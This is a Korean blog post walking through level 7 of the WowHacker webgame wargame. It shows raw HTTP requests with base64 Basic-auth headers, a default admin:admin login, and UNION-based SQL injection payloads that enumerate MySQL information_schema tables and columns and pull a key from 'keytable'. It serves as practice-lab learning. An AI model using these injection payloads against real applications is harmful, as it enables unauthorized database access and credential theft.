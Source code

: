 ```yaml
---
layout: post
title: "WowHacker Webgemae level7"
description: ""
categories : development
sub_categories : ""
date: 2015-09-08
tags: ['7번', '7본', '문제풀이', '심심', '심심할때', '와우해커', '와우해킹', '워게임', '웹해킹', '정답', '풀이', '해답', '해킹']
comments: true
share: true
---
```


하루하루 진행하다보니, 일주일사이에 7번 문제풀이를 하게되었네요.

올드좀비님의 Webhacking.kr 도 함께하고 리버싱.kr 도 함께 연재하고있으니 관심있는 분들은 한번봐주시고 피드백도 부탁드립니다.

참고로 오늘은 급하게(?) 포스팅하는 관계로 포스팅에 이전보다 많은 오타가 있을 것으로 보아 지니. . . 오타가 있다면 피드백 좀
부탁드립니다. 주소만 보았을 때, 왠지 Mysql 관련 문제일 것 같네요.

일단 해당 주소로 접근해봅시다.

  

처음에 얻은 정보는 (guest/guest) 게스트 계정 정보를 얻었네요.

  

  

![](/assets/images/posts/86/2757E44155EEC3A51220FF.PNG)

  

  

  

  

흠, 이 문제 이전 5번문제와 매우 비슷한 것 같습니다.

일단 프록실정해주시구요. guest 계정으로 접근해봅시다.

  

"서버 메세지 : Zaemitneun Webgame - Do not attack Bruteforce"

Bruteforce는 무차별 대입공격입니다. 지금 여러 방식으로 변형되어 사용되고있지만 많은 시간이 소요되는 공격기법입니다.

또 서버에 무리를 많이 주기때문에 서버측은 공격자를 빠르게 식별할수있습니다. 하지만 오늘의 문제와는 거리가 멀기때문에 각설하고 . .

  

![](/assets/images/posts/86/264EFC4155EEC3A71CC316.PNG)

  

게스트 계정으로 로그인했습니다.

제가 request 보낸 값입니다. 아파치 취약점을 이용해서 OPTIONS 메서드로 재 Request 값을 보냅니다.

Authorization에 "Z3Vlc3Q6Z3Vlc3Q=" 값은 base64로 인코딩되어있는 값 입니다. 디코딩을 하면
guest:guest 라는 값을 얻습니다.

따라서 우리는 admin:admin이라는 값으로 한번 시도해봅시다. admin:admin 을 base64로 인코딩하면 이와 같은 값을
얻습니다 "YWRtaW46YWRtaW4=" 한번 요청을 보내봅시다.

*guest request

GET http://webgame.wowhacker.com/AuThWithMySQL/ HTTP/1.1

Host: webgame.wowhacker.com

Proxy-Connection: keep-alive

Cache-Control: max-age=0

Authorization: Basic Z3Vlc3Q6Z3Vlc3Q=

Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like
Gecko) Chrome/45.0.2454.85 Safari/537.36 Paros/3.2.13

Accept-Encoding: sdch

Accept-Language: ko-KR,ko;q=0.8,en-US;q=0.6,en;q=0.4

  

*admin request

GET http://webgame.wowhacker.com/AuThWithMySQL/ HTTP/1.1

Host: webgame.wowhacker.com

Proxy-Connection: keep-alive

Cache-Control: max-age=0

Authorization: Basic YWRtaW46YWRtaW4=

Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like
Gecko) Chrome/45.0.2454.85 Safari/537.36 Paros/3.2.13

Accept-Encoding: sdch

Accept-Language: ko-KR,ko;q=0.8,en-US;q=0.6,en;q=0.4

  

![](/assets/images/posts/86/27055B3755EEC47F333458.PNG)

  

  

어드민 계정에 접근했습니다.

게스트 페이지와 다를게 없습니다. 다른거라고는 어드민 기본정보들? 하지만 이 기본정보들이 힌트가 됩니다.(나중참고)

따로 관리 툴이나 어드민 권한을 이용해서 별도의 패널에 접근할수는 없는 것 같습니다.

힌트도 없구요.

  

문제출제의도를 보면 SQL Injection을 통해서 admin 패스워드를 알아내야하는 것 같습니다.

그렇다면 우선 컬럼의 수를 알아봅시다. 컬럼수는 계정정보를보면 쉽게 추측할수있습니다.

"name,group,address,phone number,hitnum + password" 총 6개의 컬럼으로 추측할수있습니다.

계정인증폼으로 돌아가서 아이디란에 admin옆 싱글 쿼터를 닫고 쿼리문을 날려봅니다.

hax0r'union select '1','2','3','4','5','6'#:1234

  

![](/assets/images/posts/86/2376A03555EEC56A25081B.PNG)

  

name = "1",group"3",address"4",phone number"5",hitnum"6" 이라는걸 알았을때, 패스워드컬럼이
두번째 컬럼이라는것을 알수있습니다. 컬럼수가 6개 인것을 확실하게 확인했고, 이제 테이블을 알아내봅시다. 테이블명들을 group 항목으로
출력합시다.

쿼터문 준비하고, 날립니다. hax0r'union select '1','2',(select group_concat(table_name)
from information_schema.tables),'4','5','6'#:1234

aGF4MHIndW5pb24gc2VsZWN0IChzZWxlY3QgZ3JvdXBfY29uY2F0KHRhYmxlX25hbWUpIGZyb20gaW
5mb3JtYXRpb25fc2NoZW1hLnRhYmxlcyksJzInLCczJywnNCcsJzUnLCc2JyM6MTIzNDo=

Authorization 부분을 보면 Basic 인증을 사용하며 아이디와 패스워드에 구분자 ":"를 사용하고있습니다.

또 Request할때 base64로 인코딩 되구요. 따라서 그냥 입력폼에 기본 쿼터문만 입력해도되고 아니면 직접 request할때
base64로 인코딩해서 날리면 됩니다.

  

  

![](/assets/images/posts/86/277FC54A55EEDD2E0FF583.PNG)

  

  

group: CHARACTER_SETS,COLLATIONS,COLLATION_CHARACTER_SET_APPLICABILITY,COLUMNS
,COLUMN_PRIVILEGES,KEY_COLUMN_USAGE,PROFILING,ROUTINES,SCHEMATA,SCHEMA_PRIVILE
GES,STATISTICS,TABLES,TABLE_CONSTRAINTS,TABLE_PRIVILEGES,TRIGGERS,USER_PRIVILE
GES,VIEWS,keytable,user_info

  

수상한 테이블 두개를 발견했습니다. 맨 끝에 'keytable','user_info' 테이블입니다.

user_info에는 이전 name = "1",group"3",address"4",phone number"5",hitnum"6" 컬럼이
있나봅니다.

keytable에 어떤 컬럼이 있는지 조회하기 위해서는 "information_schema.columns" 의 "column_name"필드를
이용((select group_concat(column_name) from information_schema.columns where
table_name='keytable'))하면 됩니다.

쿼터문을 짜주시고, 날립시다.

hax0r'union select '1','2',(select group_concat(column_name) from
information_schema.columns where table_name='keytable'),'4','5','6'#:1234

Authorization: Basic aGF4MHIndW5pb24gc2VsZWN0ICcxJywnMicsKHNlbGVjdCBncm91cF9jb
25jYXQoY29sdW1uX25hbWUpIGZyb20gaW5mb3JtYXRpb25fc2NoZW1hLmNvbHVtbnMgd2hlcmUgdGF
ibGVfbmFtZT0na2V5dGFibGUnKSwnNCcsJzUnLCc2JyM6MTIzNA06

  

  

![](/assets/images/posts/86/22270A4955EEE07505AC4C.PNG)

  

![](/assets/images/posts/86/2113214455EEE2D1194F69.PNG)

  

  

keytable의 컬럼명을 얻었습니다. no는 번호인것같고 value 해당 컬럼의 정보갔습니다.

limit을 이용하여 value 컬럼에 있는 값을 뽑아((select value from keytable limit 0,1))봅시다.

쿼터문을 준비하고, 날려줍시다.

hax0r'union select '1','2',(select value from keytable limit
0,1),'4','5','6'#:1234

Authorization: Basic aGF4MHIndW5pb24gc2VsZWN0ICcxJywnMicsKHNlbGVjdCB2YWx1ZSBmc
m9tIGtleXRhYmxlIGxpbWl0IDAsMSksJzQnLCc1JywnNicjOjEyMzQ6

  

  

![](/assets/images/posts/86/2470774E55EEE3B50E8B9C.PNG)

  

키 값을 얻었습니다. "If you dream it, you can do it"

"꿈꿀 수 있다면, 그것을 실현하는 것도 가능하다." 멋진 말 이네요.

  

7번 문제 클리어.

문제는 총 10번까지 있으며 다음은 8번 문제를 연재하겠습니다

8번은 로그인, 인증 관련 문제입니다. 이것도 왠지 인젝션 일 것 같은데.

  

![](/assets/images/posts/86/23237D5055EEE50D1FFCCA.JPEG)

  

  

  

  

  

  

  

  

